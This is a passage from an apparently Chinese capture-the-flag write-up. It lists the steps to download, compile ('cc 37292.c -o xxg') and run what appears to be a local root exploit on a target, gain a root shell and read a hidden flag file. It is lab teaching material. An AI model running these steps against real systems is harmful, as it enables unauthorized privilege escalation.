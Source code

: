在已连接的目标系统用wget下载

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZmU5OGQ1YWZiYTAzMDZjM2NjNDFjYTIxY2YzYjlmZWFfdEhmUzY3ZXBhZjBmVld6ZUVvRVE0T2VZTTFZZE5xdE5fVG9rZW46UTBIUGJoY2o3bzBuZ0x4WjY5S2NpM1dIblBoXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZmNlMjQ5MmYxMzBjNjVhYzdjZmM1YWFkYWMwNzE5ZjBfcWZHYWxUT2t4TmhWbHAxM0dYNVY5V0RrTDZqUXpxcEJfVG9rZW46TnI5N2I0c0Nqb2xLMlR4dWE0a2M4UTYwbjFlXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

编译（无视报错）

`cc 37292.c -o xxg `    ---C语言的CC代码编译点c文件

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=YmVmYjliN2FlMGJjZTUxN2UwNGY4NzU0YTE4MTg4ZWFfRmV2bjRZVXRhWWIwaFdIcWYwY1FTb0dQNnY5Yk4wdlNfVG9rZW46RjdYd2JnWGhVb1dYczB4U1V5bmNDRVhRbmFoXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

`chmod +x xxg`          ---编译成可执行文件，并赋权

`./xxg`                      ---点杠执行

成功getshell，获取root权限

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=ZjMzOTI4MjljMzFlYzNkNGY2YTkxODA5MWZjMDlhMTFfVzAyWGQ4eDJqRVNtY0FIcFpFUGFYQzNheFk3SFlnZ3RfVG9rZW46VnJ6VWJFOTNPb1l4Mkt4Q2d3eGNoRzcxblFnXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)

获取flag

**`ls`**` -a`          ----*显示当前目录中的所有文件和目录，包括**隐藏**文件*

`cat .flag.txt`               ----打开隐藏的txt

在 Unix 和类 Unix 操作系统中，以点（`.`）开头的文件名通常被视为隐藏文件。

![img](https://r5bf0bjx4j.feishu.cn/space/api/box/stream/download/asynccode/?code=MzM3NGM1MjkyNmJjZjU4ZmM0YmU5MmU5OGE4M2M2ZjZfdzJhSVdKU1VUT05WMkpGbEdRWUVuWlZMZGMwNFRCVFNfVG9rZW46VGQ5eWJ5Snpxb3ZqR0p4alhubmNmeXBDbm1nXzE2OTIwMDE5NTI6MTY5MjAwNTU1Ml9WNA)
